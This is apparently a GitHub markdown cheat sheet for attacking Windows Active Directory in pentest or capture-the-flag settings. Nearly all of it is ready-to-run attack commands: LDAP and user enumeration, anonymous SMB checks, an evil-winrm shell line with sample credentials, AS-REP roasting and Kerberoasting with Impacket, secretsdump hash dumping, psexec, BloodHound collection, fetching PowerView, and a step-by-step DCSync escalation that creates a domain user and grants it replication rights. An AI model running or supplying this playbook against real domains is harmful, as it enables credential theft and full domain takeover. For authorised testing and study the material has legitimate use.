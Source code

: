 # Active Directory

## Enumeration

Nmap: `sudo nmap -n -sV --script "ldap* and not brute" <IP>`

Enum4Linux: `enum4linux <IP>`

Kerbrute: `./kerbrute userenum -d <Domain Controller> --dc <Target IP> /<Wordlst>`

## SMB

If Port 5985 is OPEN, you may be able to access a shell with valid SMB Credentials

SMB Shell: `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

SMB Connection: `smbclient \\<IP>\<Share> -U '<Username>'`

Check For Anonymous Access:

`smbmap -H <IP>`

`smbclient \\\\<IP>\<Share> -N`

`smbclient \\\\<IP>\\<Share> -c 'recurse;ls' -N`

## Impacket Scripts

AS-REP Roasting

GetNPUsers: 

`sudo python3 GetNPUsers.py <Domain Controller>/<Valid Username> -no-pass`

`sudo python3 GetNPUsers.py <Domain Controller>/ -dc-ip <IP> -request`

Kerberoasting

GetUsersSPNs: `sudo python3 GetUsersSPNs.py <Domain Controller>/<Valid Username> -dc-ip <IP> -request`

Hash Dump After DCSync

SecretsDump: `sudo python3 secretsdump.py <Domain Controller>/<New Username>@<IP>`

Remote PowerShell Connection

PsExec: `python psexec.py <Domain Controller>/<Username>:<Password>@<IP>`

## Bloodhound

Install: `sudo pip3 install bloodhound && wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip && unzip BloodHound-linux-x64.zip && mv BloodHound-linux-x64/BloodHound . && rm -rf BloodHound-linux-x64.zip BloodHound-linux-x64/`

Get Info: `bloodhound-python -d <Domain Controller> -u <Valid Username> -p <Password> -gc <Gloabl Catalog> -c all -ns <IP>`

Neo4j Console: `neo4j console`

BloodHound: `./BloodHound --no-sandbox`

# PowerView

Download: `curl -O https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1`

# DCSync Attack 

`net user <New Username> <New Password> /add /domain`

`net group "Exchange Windows Permissions" <New Username> /add /domain`

Import PowerView

`$pass = convertto-securestring '<New Password>' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('<Domain Controller>\<New Username>', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<dc>,DC=<dc>" -PrincipalIdentity "<New Username>" -Rights DCSync`

# Extra Resources

[What is AS-REP Roasting?](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

[Kuberos DCSync Attacks Explained](https://www.qomplx.com/kerberos_dcsync_attacks_explained/)

[PowerView 3.0 Tips & Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

[Pentesting Active Directory II](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
